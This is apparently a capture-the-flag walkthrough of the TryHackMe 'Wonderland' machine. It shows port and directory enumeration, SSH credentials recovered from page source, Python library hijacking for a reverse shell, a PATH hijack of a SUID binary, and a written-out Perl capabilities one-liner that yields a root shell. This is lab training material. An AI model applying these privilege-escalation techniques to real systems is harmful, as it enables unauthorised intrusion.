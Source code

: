 ![image](https://user-images.githubusercontent.com/99112106/181240563-b20eca88-3323-4d7d-81f4-739485a76810.png)

# Wonderland

## 1.Enumeration 

Let's start with a simple nmap scan:

``` 
nmap -sC -sV -p- 10.10.4.217     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-27 11:53 CEST
Nmap scan report for 10.10.4.217
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.75 seconds

```

We have opened ports like port 22 (ssh) and port 80 (http).

***
## 2. Exploring the website

If we take a look on the website we can see the following:

![image](https://user-images.githubusercontent.com/99112106/181240587-fb7e2443-af2a-4d47-9a6a-f46357a49e2c.png)


Let's run gobuster in order to enumerate hidden directories. This is what I found:

```
gobuster dir -u http://10.10.4.217 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.217
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/27 12:01:50 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]   
                                                         
===============================================================
2022/07/27 12:03:08 Finished
===============================================================
   
```

We have 3 directories "img", "poem" and "r". Of which, "poem" looks like a rabbit hole:

![image](https://user-images.githubusercontent.com/99112106/181240611-ae3a4083-d62d-40f1-abd6-4a4f167e4e98.png)

In the other hand, if we have a look into the "r" directory, it seems like it invites us to keep enumerating:

![image](https://user-images.githubusercontent.com/99112106/181240630-963d2a12-74e7-4259-a3cd-1b6a5628c0b0.png)

So I kept enumerating until i found this under "/r/a/b/b/i/t" directory:

![image](https://user-images.githubusercontent.com/99112106/181240645-e8bd21c0-ee40-4c34-871a-5bf5fdc00e22.png)

I took a moment to have a look the source code of that page and I found what it seemed like the ssh credentials for Alice!

![image](https://user-images.githubusercontent.com/99112106/181240661-87988755-32b8-4faa-aebc-fc00c2826795.png)

***
## 3. Foot Hold

After finding the SSH credentials for Alice I decided to went right into the SSH server:

![image](https://user-images.githubusercontent.com/99112106/181240677-39efe65f-ae9e-466c-8d92-caf172cd9684.png)

This is actually funny, we can red the user flag inside the root's directory xD In this box, as the hint suggests, everything is upside down, meaning root.txt is in users’ home, and user.txt is in /root.

![image](https://user-images.githubusercontent.com/99112106/181240700-934c1492-76ec-424b-a3f1-431e8c4c796e.png)

In Alice's home path I found the root flag (???) and a python script but, of course, I couldn't read the flag because I didn't have the rights as Alice:

![image](https://user-images.githubusercontent.com/99112106/181240721-a6cedbd9-3d58-468f-b621-b25c428efc29.png)

So I focused into the python script. Basically, It has a large poem from which It pseudo-randomly takes 10 lines:

![image](https://user-images.githubusercontent.com/99112106/181240746-89d91d34-0c46-475a-8d31-e5da4e66906c.png)

Adittionaly, I saw that Alice could run this Python script with root privs:

![image](https://user-images.githubusercontent.com/99112106/181240778-d6834964-0c18-421a-a04e-83d793355ee5.png)

Python will look in the current working directory first for the module files before searching the specified Python library directories; so with that in mind, I created a file called random.py in the same directory. I used the IronHackers Python reverse shell:

![image](https://user-images.githubusercontent.com/99112106/181240789-4fd12a91-d046-40b3-9a5f-d20f78fda817.png)

¡Important! Use the full path, otherwise it may throw an error about missing permissions.

![image](https://user-images.githubusercontent.com/99112106/181240804-60dd47d5-9c0c-4b60-a55e-2f4ab8c3ce45.png)

At this point I had managed to move laterally to another user:

![image](https://user-images.githubusercontent.com/99112106/181240823-48802abe-ea4c-4de4-b843-40b00c04b6a5.png)

As always, upgrade the shell:

![image](https://user-images.githubusercontent.com/99112106/181240848-6bceba3c-8f2c-4706-9d1b-8f32c295394a.png)

The user directory has an executable file named teaParty owned by root with SUID permissions, so it’s definitely worth further investigation:

![image](https://user-images.githubusercontent.com/99112106/181240880-b9088085-c343-443c-a2b7-f38fcd6767b1.png)

When I press the enter key, it immediately errors out with a “Segmentation fault” which sounds like an error with the memory:

![image](https://user-images.githubusercontent.com/99112106/181240903-82b07c64-39c2-4de0-8333-8ed05beac6fe.png)

Using the strings command I found this interesting:

![image](https://user-images.githubusercontent.com/99112106/181240927-58786576-1a9a-45cc-a231-36208910d085.png)

The key thing is that the date command is called with a specified path, that means that the shell will look through the $PATH variable for the file containing the data it wants to run. Knowing this, we can manipulate the path and have it point to our own crafted “date” command file instead of the original:

![image](https://user-images.githubusercontent.com/99112106/181240951-d12ed5a7-f211-4c68-b44a-06cc67e44750.png)

And we had managed to move laterally to "hatter"!!

On his working directory I found his password but unfortunately, he couldn't run sudo:

![image](https://user-images.githubusercontent.com/99112106/181240975-8f5d2bc7-c24e-4d0a-9a09-072bd79ca3d2.png)

At this point, I set up a Python HTTP server on my machine and downloaded and ran Linpeas on our target machine:

![image](https://user-images.githubusercontent.com/99112106/181240997-60aa9768-97d8-47cc-b115-261d1cffe236.png)

Found exploitable Perl capabilities with LinPEAS:

![image](https://user-images.githubusercontent.com/99112106/181241028-b1101118-e00d-4e88-9379-42a10599cbd2.png)

Since it’s a binary, let’s pull out our handy GTFObins page and give the provided commands a try:

![image](https://user-images.githubusercontent.com/99112106/181241038-57093442-8e18-4c44-9e6b-562dc8409392.png)

```
hatter@wonderland:/$ /usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# whoami
root
# cd /home/alice
# cat root.txt
thm{thefinalflag}
```

And we're done! Congratz!
